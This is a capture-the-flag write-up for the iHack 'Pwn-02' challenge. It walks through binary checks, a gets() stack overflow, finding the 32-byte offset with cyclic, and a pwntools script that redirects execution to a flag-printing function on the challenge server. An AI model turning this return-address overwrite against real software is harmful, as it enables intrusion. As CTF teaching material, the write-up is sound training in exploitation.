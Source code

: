 # Pwn-02

> **Flag Format:** `ihack{MD5}`
> 
> **Remote Instance:** `nc pwn2.ihack.sibersiaga.my 1389`

Perform basic file checks regarding the architecture of the given binary. It is `32-bit`, `LSB`, `statically linked` & `not stripped`. 

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ file chal_      
chal_: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=5358fac57714ea7cb10bc80150f5e24a113a6bf9, for GNU/Linux 3.2.0, not stripped
```

Perform binary protection checks to get an overall idea on where to start tackling the challenge. `NX enabled` indicating that shellcode injection may not be the intended solution.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ checksec --file=chal_             
[*] '/home/kali/Desktop/iHack/pwn/pwn-02/chal_'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

The binary to vulnerable to a Buffer Overflow attack due to the use of deprecated `gets` in the `echo` function. By exploiting this vulnerability, we can overwrite the return address to any function that we control.

```
void echo(void)

{
  char local_20 [24];
  
  putchar(10);
  puts("Hello There! Im echo bot =) I can say anything you want me to say ");
  putchar(10);
  puts("Enter some text:");
  fflush((FILE *)stdout);
  fflush((FILE *)stdin);
  gets(local_20);
  printf("You entered: %s\n",local_20);
  return;
}
```

There is also another function `ZmxhZ2hlcmUh` that prints out the flag on the remote instance. Since `PIE` is disabled, we can grab the address of this function in `Ghidra`, which is `0804988b`.

```
void ZmxhZ2hlcmUh(void)

{
  puts("Congratulations! Here is your flag!");
  system("cat flag.txt");
  return;
}
```

To find the buffer limit, we can use the `cyclic` module from `pwntools`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/pwn/pwn-02]
└─$ cyclic 80            
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
```

```
pwndbg> run
Starting program: /home/kali/Desktop/iHack/pwn/pwn-02/chal_ 
 _______ _______ _______ _______ _______ _______ _______ _______ _______ 
|     /|     /|     /|     /|     /|     /|     /|     /|     /|
| +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ | +---+ |
| |   | | |   | | |   | | |   | | |   | | |   | | |   | | |   | | |   | |
| |I  | | |h  | | |a  | | |c  | | |k  | | |2  | | |0  | | |2  | | |2  | |
|/      |/      |/     |/     |/     |/     |/     |/     |/     |
 _______ _______ _______ _______ _______ _______ _______ _______ _______|
 
Hello There! Im echo bot =) I can say anything you want me to say 

Enter some text:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
You entered: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa

Program received signal SIGSEGV, Segmentation fault.
0x61616169 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────────────────────────────
 EAX  0x5e
 EBX  0x61616167 ('gaaa')
 ECX  0x0
 EDX  0x0
 EDI  0x1
 ESI  0x80f1000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
 EBP  0x61616168 ('haaa')
 ESP  0xffffd030 ◂— 'jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa'
 EIP  0x61616169 ('iaaa')
 
pwndbg> cyclic -l iaaa
32
```

We can automate the process using `pwntools` as follows:

```
#!/usr/bin/env python3
from pwn import *

elf = ELF('./chal_')
rop = ROP(elf)

p = remote('pwn2.ihack.sibersiaga.my', 1389)

def exploit():

    padding = b'A'*32
    ret = (rop.find_gadget(['ret']))[0]
    flag = elf.symbols['ZmxhZ2hlcmUh']

    payload = padding
    payload += p32(ret)
    payload += p32(flag)

    print(p.recvuntil(b':\n'))

    print(payload)
    p.sendline(payload)

    print(p.recvall())

def main():
  exploit()

if __name__ == "__main__":
  main()
```

**Flag:** `ihack{}`
